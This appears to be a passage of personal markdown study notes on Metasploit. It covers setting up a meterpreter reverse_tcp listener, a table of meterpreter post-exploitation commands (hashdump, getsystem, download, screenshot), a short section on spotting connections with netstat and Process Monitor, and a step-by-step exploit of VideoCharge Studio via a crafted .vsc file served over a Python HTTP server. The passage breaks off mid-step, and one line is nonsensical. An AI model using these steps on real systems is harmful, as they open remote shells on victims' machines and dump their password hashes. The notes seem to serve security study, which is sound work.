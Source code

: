 - Part 3- start a listener on attacker's device 
	- use exploit/multi/handler
	- set payload windows/meterpreter/reverse_tcp
	- set LHOST ``<attacker ip>``
	- set LPORT ``<>attcker's port>``
	- exploit 

jobs for check listener 
- sessions 
 - sessions -i id(number)
To make sessions put in background 
- exit  
  - background 
  To get  back 
- sessions -i id(number)
  

#### For viewing the tcp/udp connections /processor checksing logs 
1. using netstat ( in terminal )
	- netstat -ano

2.  TCP view (GUI version of netsat )

3.  For detailed process monitor 
- process monitor v4 (procomod )

#### Getting shell using  metermeter Commands 
the word is main and the word is very hard to look 


- To run local target machine commands in meterpeter  
  lcd - change dir in 
  lpwd - show 

#### meterpeter Commands 

| commands   | function                 | Option | Examples           |
| ---------- | ------------------------ | ------ | ------------------ |
| download   | to downloads any thing   |        | download  filename |
| upload     | to upload                |        | upload filename    |
| screenshot | to take screenshot       |        | screenshot         |
| sysinfo    | gives System Information |        | sysinfo            |
| getuid     | gives username or id     |        |                    |
| getpid     | gives process id         |        |                    |
| getsystem  | to get privilege access  |        |                    |
| hashdump   | will dump user hashes    |        |                    |


#### Exploiting  windows 10 using videoCharge Studio 
- part 1 - install videoCharge Studio 2.12.3.685
- exploiting  videoCharge using Metasploit
	- msfconsole -q
	- search videocharge 
	- use exploit/windows/fileformat/videocharge_studio
	- set FILENAME ``XX.vsc``
	- set LHOST 
	- set LPORT  
- part 2 - share payload with target 
	- Starting python server 
		-  python3 -m http.server ``<portnumber>``
	- or 